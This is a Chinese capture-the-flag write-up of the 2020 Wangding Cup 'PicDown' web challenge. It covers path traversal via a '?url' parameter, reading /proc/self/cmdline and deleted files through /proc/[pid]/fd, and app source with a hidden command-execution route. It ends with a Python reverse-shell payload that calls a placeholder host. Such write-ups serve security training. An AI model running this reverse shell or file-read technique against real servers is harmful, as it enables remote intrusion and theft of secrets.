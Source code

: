 # 网鼎杯白虎组web - PicDown

![image-20210531094007110]([网鼎杯 2020 白虎组]PicDown/image-20210531094007110.png)

## 知识点

- 目录穿越
- 任意文件执行
- `/proc/self/cmdline`进程读取

![image-20210531093805426]([网鼎杯 2020 白虎组]PicDown/image-20210531093805426.png)

`?url`是一个目录穿越，任意命令执行点

## 非预期解

直接读取根目录flag文件

![image-20210531094201414]([网鼎杯 2020 白虎组]PicDown/image-20210531094201414.png)

## 预期解

先读取`proc/self/cmdline`

![image-20210531094045715]([网鼎杯 2020 白虎组]PicDown/image-20210531094045715.png)

看到先执行了 `python2 app.py`文件

尝试读取一下app.py文件

![image-20210531094414419]([网鼎杯 2020 白虎组]PicDown/image-20210531094414419.png)

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

`/ no_one_know_the_manager` 能执行系统命令，但没有回显。程序读取完`SECRET_KEY`会删除/tmp/secret.txt,但在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部（如os.remove(SECRET_FILE)）删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。/proc/[pid]/fd 这个目录里包含了进程打开文件的情况；；pid就是进程记录的打开文件的序号；；
尝试爆破一下

![img]([网鼎杯 2020 白虎组]PicDown/AUM4}5TUFS2LQE0J{B%WR8.png)

payload:

````
?key=OIsVGHpGaZqOYe70jOqwtmkIw9EQQ/NIiI5IvcPD7wI=
&shell=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

拿到shell

![QQ图片20210531094642]([网鼎杯 2020 白虎组]PicDown/QQ图片20210531094642.png)